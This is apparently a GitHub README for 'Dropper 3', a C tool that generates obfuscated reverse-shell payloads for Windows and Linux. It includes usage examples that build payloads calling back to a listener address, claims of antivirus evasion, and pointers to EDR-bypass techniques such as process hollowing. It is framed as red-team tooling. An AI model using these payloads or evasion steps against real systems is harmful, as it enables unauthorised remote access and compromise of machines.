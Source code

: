# Dropper 3 (BCE) - The end of a five year long payload generation odyssey.

![](https://github.com/im4x5yn74x/dropper3/blob/master/assets/dropper-3-odyssey.gif)

## Prelude

I started this project to discover a fast and efficient way to generate a reverse shell binary payload without a whole lot of fuss for Cyber Security Experts and Red Teamers alike. From the start, I wanted to use a language that I wasn’t too familiar with, as a challenge for myself in utilizing to develop my solution. I decided to go with Golang since it was rather popular at the time in our community, and I was anxious to learn the language to keep up with the ever evolving trends in InfoSec. Very quickly I realized how powerful a language like Golang is, as well as some of its common drawbacks. As <a href=”https://github.com/byt3bl33d3r”>Byt3bl33d3r</a> so elequently put it, Go makes THICC malwares, like 1.8 MB THICC! 😳 Not only that, but the Golang runtime environment and related artifacts tend to migrate with any binary file compiled on ones local system, thus leaving tons of forensic clues to Blue Teamers to determine the origin from where the payload was created, and what tools were used, etc. Just a mess. Enter Dropper2. While this project served its purpose at addressing all these pesky artifacts left behind, as best as possible, without going full <a href=”https://github.com/burrowers/garble”>Garble</a> with it, coupled with some randomized obfuscation, helped get the job done at evading Anti-Virus, and some EDR solutions, at least for a little while. The next step in this evolutionary journey was to test out another unique language growing in popularity, Rust. Over the course of a month, learning the language well enough to be dangerous, and creating <a href=”https://github.com/Elmofire/ef”>Elmofire</a> as a result, I had yet another obfuscated payload generator, leaving Golang behind, at least for now. After all was said and done, Elmofire, the new and improved Dropper, without all the bloated chubby gophers, and yet, I still felt something was missing from my journey into malware development. I decided to take a step back and focus on what other malware authors (good and bad) have used in the past. After thumbing through what seems like endless lines of source code on <a href="https://github.com/vxunderground/MalwareSourceCode">VXUG’s Github</a>, I noticed a very obvious common pattern in language choice: C/C++. This was it! I had always wanted to learn C/C++ but had no idea where to start those 5 years ago. I had learned a great deal regarding low level programming since then, including Assembly fundamentals on various architechtures. Finally, my mind felt ready, and like I’ve always done, I rewrote Dropper, now for a 3rd and final time in C. Taking it way back, (Before the Common Era) 😉

So, with the back story out of the way, may I present: Dropper 3.0 (BCE).

## Dependancies

Given the fact we're using C, you're gonna need every type of compiler used by Dropper3 to build each type of binary payload. Run the following command to install the necessary compilers and build libraries:
<code>sudo apt install gcc make gcc-mingw-w64 binutils-mingw-w64 gcc-mingw-w64-i686 binutils-mingw-w64-i686 gcc-mingw-w64-x86-64 binutils-mingw-w64-x86-64 gcc-x86-64-linux-gnux32 binutils-x86-64-linux-gnu gcc-sparc64-linux-gnu binutils-sparc64-linux-gnu gcc-riscv64-linux-gnu binutils-riscv64-linux-gnu gcc-powerpc-linux-gnu binutils-powerpc-linux-gnu gcc-powerpc64-linux-gnu binutils-powerpc64-linux-gnu gcc-mips-linux-gnu binutils-mips-linux-gnu gcc-mips64-linux-gnuabi64 binutils-mips64-linux-gnuabi64 gcc-i686-linux-gnu binutils-i686-linux-gnu gcc-hppa-linux-gnu binutils-hppa-linux-gnu gcc-hppa64-linux-gnu binutils-hppa64-linux-gnu gcc-alpha-linux-gnu binutils-alpha-linux-gnu gcc-arm-linux-gnueabi binutils-arm-linux-gnueabi gcc-aarch64-linux-gnu binutils-aarch64-linux-gnu gcc-s390x-linux-gnu binutils-s390x-linux-gnu</code>

## Usage

Usage is the same as its predecessors, simply compile the source using <code>gcc -o dropper3 dropper3.c</code> and run <code>./dropper3 -h</code>

E.g. Help Menu
<pre>
$ ./dropper3 -h
Usage: Usage of dropper3:
  -a string
                Architecture: i686, amd64, arm, arm64, powerpc64, powerpc, mips, mips64, s390x, sparc64, riscv64, hppa, hppa64, alpha
  -l string
                Listening host: <listening ip:port>
  -o string
                Output filename: <anything goes>
  -p string             Operating System: windows, linux
  -s string
                Shell type: cmd, powershell, /bin/sh, /bin/bash, /usr/bin/zsh, /system/bin/sh, /bin/busybox
</pre>

E.g. Windows Payload
<pre>
$ ./dropper3 -p windows -a amd64 -l 10.12.1.99:1337 -o potato -s cmd
Operating System: windows
Architecture: amd64
Listening host: 10.12.1.99:1337
Output filename: potato
Shell type: cmd
Payload built successfully
</pre>

Confirm result using the <code>file</code> command
<pre>
$ file potato.exe 
potato.exe: PE32+ executable (console) x86-64, for MS Windows
</pre>

E.g. Linux Payload
<pre>
$  ./dropper3 -p linux -a arm64 -l 10.12.1.99:31337 -o chips -s /bin/sh  
Operating System: linux
Architecture: arm64
Listening host: 10.12.1.99:31337
Output filename: chips
Shell type: /bin/sh
Payload built successfully
</pre>

Confirm result using the <code>file</code> command
<pre>
$  file chips 
chips: ELF 64-bit LSB pie executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=9eefe4521695a769e0a384e87d1d8ea89b45fd8b, for GNU/Linux 3.7.0, not stripped
</pre>

## F.A.Q.

“So what exactly does this accomplish?”

- Other than my own personal accomplishments, not much; only now instead of producing THICC malwares, the payloads created by Dropper 3 are much smaller, like 1.5MB smaller! Huzzah!

“Besides the weight loss, how much has really changed?”

- Not much to be honest. Still using the same obfuscation and randomization techniques as done in Dropper2. Payloads will still evade off-the-shelf signature-based Anti-Virus, however, for EDRs, you’ll want to couple one of these generated payloads with other techniques, such as Fileless PE Loading, Process Hollowing, Döppleganging, etc. Check out <a href="https://github.com/hasherezade/">Hasherazade’s Github</a> for more awesome research on the topic.

“Is this really the end?”

- Yes, this is the end for Dropper rewrites and language developments. I had initially used this project as an intermediate form of <i>Hello World</i> for malware developers, and I highly recommend anyone out there reading this to follow the same principal. Take an idea for some really cool malware/innocent program you’d like to create, then pick a language you’ve never used before and learn it! Learn that language to build the program you want to see come to life in the language you want to see it written in. I promise you, you’ll learn way more than you ever thought you would, and you’ll become a better programmer because of it.

“How about that disclaimer?”

- Awww here it goes! 😎

## Disclaimer

This tool is intended for Penetration Testers, Security Researchers and Red Teamers alike. DO NOT USE this tool for ILLEGAL purposes or WITHOUT the CONSENT from the parties involved while agreed upon by LEGAL DOCUMENTATION or PERMISSIVE ACCESS for security consultation or research purposes. I, hereby relinquish ALL responsibility for any illegal use of this tool or ANY binary payloads subsequently generated by the tool as described. You have been warned.